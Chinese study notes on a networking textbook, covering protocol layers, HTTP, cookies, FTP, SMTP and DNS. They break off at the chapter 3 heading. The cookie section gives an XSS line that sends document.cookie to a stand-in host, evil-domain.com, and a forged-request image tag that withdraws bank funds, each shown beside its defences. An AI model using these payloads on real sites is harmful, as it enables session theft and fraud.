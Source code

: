 # 计算机网络

Computer Networking：A Top-Down Approach，Sixth Edition，ISBN: 9787111453789

## 第一章 计算机网络和因特网

### 1.1 因特网

- 因特网由主机（Host）组成
- 主机通过通信链路（communication link）和分组交换机（packet switch）连接到一起
- 通信链路：同轴电缆、铜线、光纤、无线电频谱
- 分组交换机：路由器、链路层交换机
- ISP（Internet Service Provider）: 因特网服务提供商
- 通信方式由协议规定，最著名的协议就是TCP/IP协议
- [IETF](https://www.ietf.org/) 通过 [RFC](https://tools.ietf.org/rfc/index) 文档定义协议（Protocol）

### 1.2 接入网络

- 家庭接入：DSL、电缆、光纤
- 企业接入：以太网、WiFi
- 广域无线接入：3G、4G、5G、LTE

### 1.3 分组交换

* 时延
    * 处理时延：检查首部、确定转发的路径、位校验等
    * 排队时延：等待开始向链路传输，当流量大时需要排队
    * 传输时延：将整个分组传输到链路，第一位到最后一位
    * 传播时延：分组到达下一个路由器所需要的时间
* 丢包：流量过大，超过队列限制，包将会被丢弃
* 吞吐量：能够承载的流量（瞬时、平均、最大）

### 1.4 协议分层

* 应用层 - HTTP/SMTP/FTP - 报文（message）
* 传输层 - TCP/UDP - 报文段（segment）
* 网络层 - IP/路由选择 - 数据报（datagram）
* 链路层 - DOCSIS - 帧（frame）
* 物理层 - 物理媒体的协议 - 比特/位（Bit）

OSI模型在**应用层**与**传输层**之间还有

* 表示层 - ASCII/JPEG/GIF
* 会话层 - 比如SQL会话

### 1.5 网络安全

* 恶意软件
* 僵尸网络
* 病毒
* Dos攻击（Denial Of Service Attack）
    * 弱点攻击：系统或软件的漏洞
    * 带宽泛洪：发送大量流量，阻碍正常流量处理
    * 连接泛洪：开启大量TCP半开/全开的连接
* 分组嗅探：无线网、局域网等
* 伪造请求：IP哄骗等

##　第二章 应用层

### 2.1 进程通信

- 通过套接字（Socket）通信
- 通过*IP地址+端口号*区分

### 2.2 HTTP协议

* 默认端口 **80**
* 请求报文格式
    * 请求行  `请求方法 sp 请求URL sp 版本 cr lf`
    * 头部行  `头部字段名 : sp 头部字段值 cr lf`
    * 空行 `cr lf`
    * 请求体 
    * 示例：
    ```
    GET /somedir/page.html HTTP/1.1
    HOST: www.somescholl.edu
    Connection: close
    User-Agent: Mozila/5.0
    Accept-Language: fr
    ```
* 响应报文格式
    * 状态行 `版本 sp 状态码 sp 状态短语 cr lf`
    * 头部行 `头部字段名 : sp 头部字段值 cr lf`
    * 空行 `cr lf`
    * 响应体
    * 示例：
    ```
    HTTP/1.1 200 OK
    Connection: close
    Date: Tue, 09 Aug 2011 15:44:04 GMT
    Server: Apache/2.2.3 (CentOS)
    Last-Modified: Tue, 09 Aug 2011 15:11:03 GMT
    Content-Length: 6821
    Content-Type: text/html
    
    (data data data data ...)
    ```
* 持续连接 / 非持续连接：是否复用TCP连接
* Cookie：HTTP是无状态协议，Cookie用于识别用户
    * 响应头`Set-Cookie: <cookie名>=<cookie值>`用于设置Cookie
    * 请求头`Cookie: <cookie名1>=<cookie值1>; <cookie名2>=<cookie值2>`
    * 持久性
        * 可以指定特定的过期时间`Expires`或者有效期（单位秒）`Max-Age`
        * 指定`Expires`：`Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;`
        * 指定`Max-Age`：`Set-Cookie: id=a3fWa; Max-Age=3600;`
    * 安全性标记    
        * `Secure`标记Cookie只通过HTTPS发送请求
        * `HttpOnly`标记不能通过JavaScript访问Cookie，避免跨站脚本攻击（XSS）
        * 示例：`Set-Cookie: id=a3fWa; Secure; HttpOnly`
    * 作用域
        * `Domain`指定哪些主机域名可以接受Cookie
        * `Path`指定具体的路径（该路径下的子路径也会被匹配）
    * `SameSite`用于防止跨站请求伪造攻击（CSRF）
        * None 仍然发送
        * Strict 完全一致的URL下才会发送
        * Lax 图片加载或Frame调用时可以发送，跳转导航到页面时不发送
    * XSS攻击
        * 使用JavaScript访问Cookie进行跳转
        * 示例：`(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;`
        * `HttpOnly`标记一定程度上可以防止该问题
    * CSRF攻击
        * 其它网站上进行跳转，比如假装成图片，欺骗用户点击
        * 示例：`<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">`
        * 预防攻击
            * 对用户输入进行过滤
            * 敏感操作都需要确认
            * 敏感信息的Cookie只能拥有较短的生命周期

### 2.3 FTP协议

* 默认端口 **21**
* 使用两个连接
    * 控制连接（持续的）
    * 数据连接（非持续的）
* 请求命令
    * USER username
    * PASS password
    * LIST
    * ... 
* 响应
    * 331 Username OK, Password required 
    * 425 Can't open data connection
    * ...

### 2.4 邮件协议

* SMTP 简单邮件协议
    * HELO
    * MAIL FRON
    * RCPT TO
    * DATA
    * QUIT
* POP3
* IMAP

### 2.5 DNS协议

* 默认端口 **53**
* DNS的功能
    * 主机名到IP地址的转换
    * 主机别名：别名比主机名更加容易记忆（xxx.222.yyy.com - x2y.com）
    * 邮件服务器别名
    * 负载分配：多个IP对应一个主机名，返回顺序的IP地址集合
* 分布式的DNS服务器
    * 根DNS服务器
    * 顶级DNS服务器
    * 权威DNS服务器
    * 使用DNS缓存
    * 使用递归查询和迭代查询
* DNS的记录格式
    * 记录的格式 `(NAME, VALUE, TYPE, TTL)`
        * A类型 (relay1.bar.foo.com, 123.45.67.89, A) 
            * 指定域名对应的 IP 地址记录。
         * NS类型(foo.com, dns.foo.com, NS) 
             * 指定解析域名或子域名的 DNS 服务器。
         * CNAME类型(foo.com, relay1.bar.foo.com, CNAME)
             * 一个域名映射到另一个域名或 CNAME 记录 或 A记录
         * MX类型(foo.com, mail.bar.foo.com, MX)
             * 指定接收信息的邮件服务器
* DNS的报文格式
    * [RFC 1035 4. MESSAGES](https://tools.ietf.org/html/rfc1035.html)
    
## 第三章 传输层